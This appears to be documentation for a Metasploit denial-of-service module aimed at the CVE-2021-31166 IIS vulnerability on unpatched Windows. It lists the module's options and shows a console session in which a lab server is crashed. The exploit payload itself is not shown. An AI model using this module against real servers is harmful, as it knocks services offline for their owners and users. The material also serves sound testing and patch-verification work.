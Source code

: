 ## Vulnerable Application

IIS web server on Windows 10 and Windows Server version 20H2 and 2004 without KB5003173.

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

IP address or hostname of the target IIS server.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

The port on the target server where IIS is running.

### TARGETURI

 - **Optional**
 - Type: **string**
 - Default value: **/**

The base URL of the IIS install on the target server.

## Scenarios

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2021_31166
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > show options

Module options (auxiliary/windows/iis/rb_dos_iis_2021_31166):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the IIS Server.
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RHOST 192.168.56.9
RHOST => 192.168.56.9
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > exploit
[*] Running module against 192.168.56.9

[*] Connecting to target to make sure its alive...
[+] Successfully connected to target. Sending payload...
[+] Payload was sent to the target server. Checking that the server is down...
[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > 
```

![Metasploit demonstration](https://mauricelambert.github.io/vulnerability/images/CVE-2021-31166_demo.gif "Metasploit demonstration")
